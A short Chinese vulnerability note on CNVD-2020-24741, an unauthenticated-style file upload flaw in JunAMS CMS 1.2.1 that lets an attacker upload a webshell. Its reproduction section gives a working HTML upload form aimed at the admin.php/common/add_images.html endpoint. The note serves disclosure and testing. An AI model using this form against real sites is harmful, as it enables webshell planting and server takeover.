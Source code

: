 # JunAms内容管理系统文件上传漏洞 CNVD-2020-24741

# JunAms内容管理系统文件上传漏洞 CNVD-2020-24741

## 漏洞描述

JunAMS是一款以ThinkPHP为框架的开源内容管理系统。

JunAMS内容管理系统存在文件上传漏洞，攻击者可利用该漏洞上传webshell，获取服务器权限。

参考链接：

- https://www.cnvd.org.cn/flaw/show/CNVD-2020-24741

## 漏洞影响

```
JunAMS junAMS 1.2.1.20190403
```

## 漏洞复现

exp：

```
<form enctype="multipart/form-data" action="http://localhost//admin.php/common/add_images.html" method="post">  
<input type="file" name="file" size="50"><br>  
<input type="submit" value="Upload">  
</form>
```


